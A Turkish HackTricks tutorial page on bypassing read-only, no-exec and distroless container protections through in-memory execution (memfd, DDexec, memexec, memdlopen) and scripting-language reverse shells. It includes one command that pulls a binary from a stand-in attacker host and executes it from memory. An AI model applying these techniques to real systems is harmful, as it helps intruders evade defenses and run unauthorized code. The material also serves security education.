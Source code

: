 # FS korumalarını aşma: yalnızca okunur / çalıştırma yok / Distroless

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Eğer **hacking kariyeri** ile ilgileniyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı Lehçe yazılı ve sözlü gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videolar

Aşağıdaki videolarda bu sayfada bahsedilen teknikleri daha derinlemesine bulabilirsiniz:

* [**DEF CON 31 - Linux Bellek Manipülasyonunu Gizlilik ve Kaçış için Keşfetmek**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng ile Gizli Sızmalar & Bellek İçi dlopen() - HackTricks Takip 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## yalnızca okunur / çalıştırma yok senaryosu

Linux makinelerinin **yalnızca okunur (ro) dosya sistemi koruması** ile monte edilmesi giderek daha yaygın hale geliyor, özellikle konteynerlerde. Bunun nedeni, ro dosya sistemi ile bir konteyner çalıştırmanın **`readOnlyRootFilesystem: true`** ayarını `securitycontext` içinde ayarlamak kadar kolay olmasıdır:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Ancak, dosya sistemi ro olarak monte edilse bile, **`/dev/shm`** hala yazılabilir olacak, bu yüzden diske hiçbir şey yazamayacağımız yalan. Ancak, bu klasör **çalıştırma yok koruması** ile monte edilecektir, bu nedenle burada bir ikili dosya indirirseniz **onu çalıştıramayacaksınız**.

{% hint style="warning" %}
Kırmızı takım perspektifinden, bu, sistemde zaten olmayan ikili dosyaları **indirmeyi ve çalıştırmayı zorlaştırıyor** (örneğin arka kapılar veya `kubectl` gibi sayıcılar).
{% endhint %}

## En Kolay Aşma: Scriptler

İkili dosyalardan bahsettiğimi unutmayın, eğer yorumlayıcı makine içinde mevcutsa, bir **shell script** veya **python** **script** gibi **herhangi bir scripti** çalıştırabilirsiniz.

Ancak, bu yalnızca ikili arka kapınızı veya çalıştırmanız gereken diğer ikili araçları çalıştırmak için yeterli değildir.

## Bellek Aşmaları

Bir ikili dosyayı çalıştırmak istiyorsanız ancak dosya sistemi buna izin vermiyorsa, bunu **bellekten çalıştırarak** yapmak en iyi yoldur, çünkü **korumalar burada geçerli değildir**.

### FD + exec syscall aşması

Makine içinde bazı güçlü script motorlarına sahipseniz, örneğin **Python**, **Perl** veya **Ruby**, ikili dosyayı belleğe indirmek, bir bellek dosya tanımlayıcısında (`create_memfd` syscall) saklamak, bu korumalardan etkilenmeyecek ve ardından **`exec` syscall** çağrısı yaparak **çalıştırılacak dosya olarak fd'yi belirtmek** mümkündür.

Bunun için [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) projesini kolayca kullanabilirsiniz. Bir ikili dosya geçirebilir ve belirtilen dilde **ikili dosya sıkıştırılmış ve b64 kodlanmış** bir script oluşturur, ardından **bellek fd'sinde** saklamak için `create_memfd` syscall'ını çağırarak ve çalıştırmak için **exec** syscall'ına bir çağrı yaparak **çözme ve açma** talimatları verir.

{% hint style="warning" %}
Bu, PHP veya Node gibi diğer script dillerinde çalışmaz çünkü scriptten ham syscall'ları çağırmanın **varsayılan bir yolu yoktur**, bu nedenle ikili dosyayı saklamak için **bellek fd'si** oluşturmak için `create_memfd` çağrısı yapmak mümkün değildir.

Ayrıca, `/dev/shm` içinde bir dosya ile **normal bir fd** oluşturmak işe yaramaz, çünkü **çalıştırma yok koruması** uygulanacağı için bunu çalıştırmanıza izin verilmeyecektir.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) tekniği, kendi sürecinizin belleğini **`/proc/self/mem`** üzerinden yazma ile **değiştirmenizi** sağlar.

Bu nedenle, sürecin yürüttüğü **montaj kodunu kontrol ederek**, bir **shellcode** yazabilir ve süreci **herhangi bir keyfi kodu çalıştıracak şekilde "mutasyona uğratabilirsiniz"**.

{% hint style="success" %}
**DDexec / EverythingExec**, kendi **shellcode'unuzu** veya **herhangi bir ikili dosyayı** **bellekten** yükleyip **çalıştırmanıza** olanak tanır.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
For more information about this technique check the Github or:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) DDexec'in doğal bir sonraki adımıdır. Bu, **DDexec shellcode demonize edilmiştir**, böylece her seferinde **farklı bir ikili dosya çalıştırmak istediğinizde** DDexec'i yeniden başlatmanıza gerek yoktur, sadece memexec shellcode'u DDexec tekniği aracılığıyla çalıştırabilir ve ardından **yeni ikili dosyaları yüklemek ve çalıştırmak için bu demon ile iletişim kurabilirsiniz**.

**Memexec'i bir PHP ters shell'den ikili dosyaları çalıştırmak için nasıl kullanacağınızla ilgili bir örneği** [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) adresinde bulabilirsiniz.

### Memdlopen

DDexec ile benzer bir amaca sahip olan [**memdlopen**](https://github.com/arget13/memdlopen) tekniği, ikili dosyaları **hafızaya yüklemenin daha kolay bir yolunu** sağlar ve daha sonra bunları çalıştırmanıza olanak tanır. Hatta bağımlılıkları olan ikili dosyaları yüklemeye bile izin verebilir.

## Distroless Bypass

### Distroless nedir

Distroless konteynerler, belirli bir uygulama veya hizmeti çalıştırmak için gerekli olan **en az düzeyde bileşenleri** içerir, örneğin kütüphaneler ve çalışma zamanı bağımlılıkları, ancak paket yöneticisi, shell veya sistem yardımcı programları gibi daha büyük bileşenleri hariç tutar.

Distroless konteynerlerin amacı, **gereksiz bileşenleri ortadan kaldırarak konteynerlerin saldırı yüzeyini azaltmak** ve istismar edilebilecek zafiyet sayısını en aza indirmektir.

### Ters Shell

Bir distroless konteynerde **normal bir shell almak için `sh` veya `bash`** bile bulamayabilirsiniz. Ayrıca `ls`, `whoami`, `id` gibi ikili dosyaları da bulamayacaksınız... genellikle bir sistemde çalıştırdığınız her şey.

{% hint style="warning" %}
Bu nedenle, **ters bir shell** almanız veya sistemi **listelemeniz** mümkün **olmayacaktır**.
{% endhint %}

Ancak, eğer ele geçirilmiş konteyner örneğin bir flask web çalıştırıyorsa, o zaman python yüklüdür ve dolayısıyla bir **Python ters shell** alabilirsiniz. Eğer node çalıştırıyorsa, bir Node rev shell alabilirsiniz ve çoğu **betik dili** ile aynı durum geçerlidir.

{% hint style="success" %}
Betik dilini kullanarak **sistemi listeleyebilirsiniz**.
{% endhint %}

Eğer **`read-only/no-exec`** korumaları yoksa, ters shell'inizi kullanarak **dosya sistemine ikili dosyalarınızı yazabilir** ve **çalıştırabilirsiniz**.

{% hint style="success" %}
Ancak, bu tür konteynerlerde bu korumalar genellikle mevcut olacaktır, ancak **önceki bellek yürütme tekniklerini kullanarak bunları aşabilirsiniz**.
{% endhint %}

**Bazı RCE zafiyetlerini istismar ederek betik dillerinden **ters shell'ler** almak ve hafızadan ikili dosyaları çalıştırmak için **örnekleri** [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) adresinde bulabilirsiniz.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Eğer **hack kariyeri** ile ilgileniyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı lehçe yazılı ve sözlü gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **HackTricks** ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR göndererek hackleme ipuçlarını paylaşın.

</details>
{% endhint %}
